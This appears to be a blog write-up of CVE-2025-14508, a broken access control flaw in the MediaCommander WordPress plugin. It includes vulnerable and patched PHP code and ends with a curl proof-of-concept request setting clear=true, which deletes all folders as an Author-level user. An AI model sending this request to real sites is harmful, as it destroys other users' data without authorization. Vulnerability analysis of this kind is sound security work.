

# CVE-2025-14508 Analysis & POC


<!--more-->

## CVE & Basic Info
Plugin **The MediaCommander – Bring Folders to Media, Posts, and Pages** for WordPress has an **unauthorized data deletion** vulnerability due to **missing capability check** at the **REST API endpoint `import-csv`** in all versions **≤ 2.3.1**.
The root cause is that this endpoint only checks for **`upload_files`** capability (**Author level**) for a **destructive action** that can **delete all folders**.
This allows **an authenticated attacker**, with **Author or higher privileges**, to **delete all folder organization data** created by **Administrators** and **other users**.

* **CVE ID**: [CVE-2025-14508](https://www.cve.org/CVERecord?id=CVE-2025-14508)
* **Vulnerability Type**: Broken Access Control
* **Affected Versions**: <= 2.3.1
* **Patched Versions**: 2.4.0
* **CVSS severity**: Low (6.5)
* **Required Privilege**: Author
* **Product**: [WordPress MediaCommander – Bring Folders to Media, Posts, and Pages Plugin](https://wordpress.org/plugins/mediacommander/)

## Requirements
* **Local WordPress & Debugging**
    * [Virtual Machine](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/)
    * [Docker](https://w41bu1.github.io/posts/2025-10-22-wordpress-local-and-debugging-docker/)
* **Plugin Version** - **MediaCommander – Bring Folders to Media, Posts, and Pages**:  
    * `2.3.1` – **vulnerable**  
    * `2.4.0` – **patched**
* **Diff Tool (diff)** → [**Meld**](https://meldmerge.org/) or any diff tool.

## Analysis 
The plugin registers a **REST API** endpoint `/import-csv` with POST method as follows:

```php {title="FolderController.php v2.3.1" data-open=true hl_lines=[6]}
register_rest_route(
    MEDIACOMMANDER_PLUGIN_REST_URL, // mediacommander/v1
    '/import-csv',
    [
        'methods' => \WP_REST_Server::CREATABLE, // POST
        'callback' => [ $this, 'importCSV' ],
        'permission_callback' => [ $this, 'canUploadFiles' ]
    ]
);
```

`permission_callback` is `canUploadFiles` to check capabilities:

```php
public function canUploadFiles() {
    return current_user_can( 'upload_files' );
}
```

* `upload_files` capability is for users from Author level and above.
* If the user lacks the capability, the REST API returns 403.

If the user has the capability, the callback `importCSV` is executed:

```php {title="FolderController.php v2.3.1" data-open=true hl_lines=[4]}
public function importCSV( \WP_REST_Request $request ) {
    $params  = $request->get_file_params();
    $file = $params['file']['tmp_name'];
    $clear  = filter_var( $request->get_param( 'clear' ), FILTER_VALIDATE_BOOLEAN );
    $attachments  = filter_var( $request->get_param( 'attachments' ), FILTER_VALIDATE_BOOLEAN );

    $data = FoldersModel::importCSV( $file, $clear, $attachments );
    $response = isset( $data ) ? [ 'success' => true, 'data' => $data ] : [ 'success' => false ];

    return new \WP_REST_Response( $response );
}
```

`importCSV` performs:

* Retrieves the CSV file from the request.
* Retrieves the `clear` and `attachments` parameters and converts them to boolean.
* Calls `FoldersModel::importCSV` to process the CSV data.
* Returns JSON containing `success` and `data` (if any) or `success: false` on failure.

> [!WARNING]
> The `clear` parameter will delete all existing folders if set to `true`.
> 

**Patch (v2.4.0)** fixes the vulnerability by changing the capability check logic:

```php {title="FolderController.php v2.4.0" data-open=true hl_lines=[7]}
register_rest_route(
    MEDIACOMMANDER_PLUGIN_REST_URL,
    '/import-csv',
    [
        'methods' => \WP_REST_Server::CREATABLE,
        'callback' => [ $this, 'importCSV' ],
        'permission_callback' => [ $this, 'canManageOptions' ]
    ]
);
```

`permission_callback` is `canManageOptions`

```php {title="FolderController.php v2.4.0" data-open=true hl_lines=[]}
public function canManageOptions() {
    return current_user_can( 'manage_options' );
}
```
`manage_options` capability is for users from Administrator level and above.

## Flow


graph TD

A["Authenticated user (Author+)"] --> B["POST /wp-json/mediacommander/v1/import-csv"]
B --> C["permission_callback: canUploadFiles()"]
C --> D{"Has upload_files capability?"}
D -- Yes --> E["importCSV() executes"]
D -- No --> Z["403 Forbidden"]

E --> F["Read CSV file and parameters (clear, attachments)"]
F --> G{"clear == true?"}
G -- Yes --> H["Delete all existing folders"]
H --> K["Broken Access Control: destructive action allowed for Author"]


## Proof of Concept (PoC)

1. Login with Author account
2. Retrieve the `nonce` from the response:


3. Send request with the `X-WP-Nonce` header set to the `nonce` value from the response:

```sh
curl -X POST "http://localhost/wp-json/mediacommander/v1/import-csv" \
  -H "Cookie: Author cookie" \
  -H "X-WP-Nonce: 7323b67e07" \
  -F "file=@./file.csv" \
  -F "clear=true" \
  -F "attachments=false"
```

## Conclusion

CVE-2025-14508 shows that the plugin **MediaCommander ≤ 2.3.1** allows **Author or higher users** to perform **full folder deletion** of other users via the REST API `import-csv`. The root cause is **missing proper capability checks** for destructive actions. Patch **2.4.0** fixes this by raising the capability check to **Administrator** (`manage_options`), preventing unauthorized deletion.

## Key Takeaways

* Always assign capabilities according to the risk level of the action (destructive actions should be Administrator only).
* Capability checks in REST API must match the nature of the operation, not just basic rights like `upload_files`.
* Parameters like `clear` can cause **total data loss**, so handle carefully and combine with proper capability checks.
* Correct use of nonce and cookies cannot compensate for **broken access control**.

## References

[Broken Access Control](https://patchstack.com/academy/wordpress/vulnerabilities/broken-access-control/)

[WordPress MediaCommander – Bring Folders to Media, Posts, and Pages Plugin <= 2.3.1 is vulnerable to Broken Access Control](https://patchstack.com/database/wordpress/plugin/mediacommander/vulnerability/wordpress-mediacommander-plugin-2-3-1-missing-authorization-to-authenticated-author-media-folder-deletion-vulnerability)


---

> Author: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/posts/2025-12-15-cve-2025-14508/  

